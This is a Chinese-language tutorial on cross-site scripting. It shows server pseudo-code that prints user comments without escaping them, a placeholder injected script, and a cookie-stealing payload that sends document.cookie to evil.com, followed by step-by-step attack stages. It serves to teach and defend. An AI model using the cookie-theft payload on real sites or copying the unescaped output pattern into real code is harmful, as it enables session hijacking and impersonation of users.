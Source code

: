 ## 跨站脚本攻击如何工作

典型的 XSS 攻击有两个阶段：

1. 为了在受害者的浏览器中运行恶意 JavaScript 代码，攻击者必须先找到一种方式将恶意代码注入到受害者访问的网页中。
2. 之后，受害者必须访问有恶意代码的网页。如果攻击者的目标是特定某人，该攻击者可使用社会工程学结合（或）网络钓鱼的方式给受害者发送恶意网址。

为了使第一步成为可能，易受攻击的网站需要直接将用户的输入包括在它的页面中。之后攻击者便能插入恶意代码片段，这些代码将在网页中使用并被受害者的浏览器视为源代码。也有一些 XSS 攻击的变体，攻击者利用社会工程学吸引用户访问某网址，并且该网址中就包含了恶意代码。

以下是服务端伪代码片段，被用作在网页中展示最近的评论：

```python
print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
```

以上脚本很简单，它从数据库中取出最近的评论并将它放入 HTML 页面中。它猜测打印输出的评论仅包括文本，而不包含 HTML 标签或其他代码。因为攻击者可以提交包含恶意代码的评论，所以它很容易被 XSS 攻击，例如当评论的内容是以下代码：

```html
<script>
  doSomethingEvil();
</script>
```

网站服务端为访问该网页的用户提供以下 HTML 代码：

```html
<html>
  <h1>Most recent comment</h1>
  <script>
    doSomethingEvil();
  </script>
</html>
```

当受害者的浏览器加载该页面时，攻击者的恶意脚本开始执行。受害者常常不会意识到这类情形，也不能阻止这类攻击。

## 使用 XSS 攻击偷取 Cookies

不法之徒经常使用 XSS 攻击偷取 cookie。如此他们便能伪装成受害者。攻击者有多种方式将 cookie 发送到他们自己的服务器。其中一种方式是在受害者浏览器中执行以下客户端代码：

```html
<script>
  window.location = "http://evil.com/?cookie=" + document.cookie;
</script>
```

下图展示了简单 XSS 攻击的各步骤。

![Cross site scripting](https://www.acunetix.com/wp-content/uploads/2012/10/how-xss-works-910x404.png)

1. 攻击者通过在提交表单时携带恶意 JavaScript 内容，将恶意内容注入到网站的数据库中。
2. 受害者向网站服务端请求网页。
3. 网站服务端将攻击者的恶意内容作为 HTML 内容的一部分，并返回给受害者的浏览器。
4. 受害者的浏览器执行包含在 HTML 中的恶意脚本。在该场景中，它将受害者的 cookie 发送到攻击者的服务器。
5. 在 HTTP 请求抵达服务器时，攻击者只需从请求中提取受害者的 cookie 即可。
6. 攻击者可以使用刚刚偷窃的受害者 cookie 进行伪装。
